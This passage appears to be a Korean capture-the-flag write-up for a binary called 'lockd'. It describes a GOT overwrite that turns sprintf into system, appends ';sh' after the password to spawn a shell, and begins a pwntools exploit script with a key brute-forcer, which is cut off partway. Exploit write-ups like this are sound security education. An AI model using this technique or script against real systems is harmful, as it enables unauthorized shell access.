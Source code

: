 1. `0xffffddb4`에 `0x0804a03c`(sprintf got) write
  - 0xffffddb4:     0x0804a03c
2. `0x0804a03c`에 `0x080485e0`(system plt) write
  - 0x0804a03c:     0x080485e0

참고로 `sprintf()`를 `system()`으로 덮는 아이디어는 첫 번째 인자에 내가 컨트롤할 수 있는 값이 들어가는 함수가 `sprintf()`밖에 없었다.

``` c
  read(0, fmt_0804A0C0, 20u);
  if ( memcmp(password_804A0A4, fmt_0804A0C0, 16u) )
    return -1;
  sprintf(fmt_0804A0C0, "./lock UNLOCK %d %d", floor_804A4C0, room_804A0A0);
```
첫 번째 인자인 `fmt_0804A0C0`에 `password`가 담겨있어야 하는데, 다행히 `memcmp()`를 16바이트만 하는 반면 입력은 20바이트를 받으므로 4바이트의 여유 공간이 생긴다.

따라서 key 뒤에 `;sh`를 넣어주면 got overwrite가 성공했을 때 다음과 같이 함수가 실행된다.
``` c
  // sprintf(fmt_0804A0C0, "./lock UNLOCK %d %d", floor_804A4C0, room_804A0A0);
  system("c39f30e348c07297;sh");
```
앞의 `c39f30e348c07297` 부분은 없는 명령이므로 무시되고, 다음 명령인 `sh`가 실행되어 shell을 실행시킬 수 있다.

## 0x03. Payload
``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
from time import sleep
import sys, os

DEBUG = True
BINARY = "lockd"
bp = {
    'read_password' : 0x08048A7D,
    'unlock' : 0x804897A,
    'lock' : 0x8048877,
    'syslog_of_lock' : 0x804896e,
}

gs = f'''
b *{bp["syslog_of_lock"]}
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def floor_and_room(s, floor, room):
    s.recv()
    s.sendline(str(floor).encode())
    s.recv()
    s.sendline(str(room).encode())
    s.recv()

def lock(s, key, name):
    s.sendline(b"1")
    s.recv()
    s.sendline(key)
    s.recv()
    s.sendline(name)
    return s.recv()

def guess_key(s):
    key = []
    for i in range(16):
        for j in range(256):
            s = remote("0.0.0.0", 8107)
```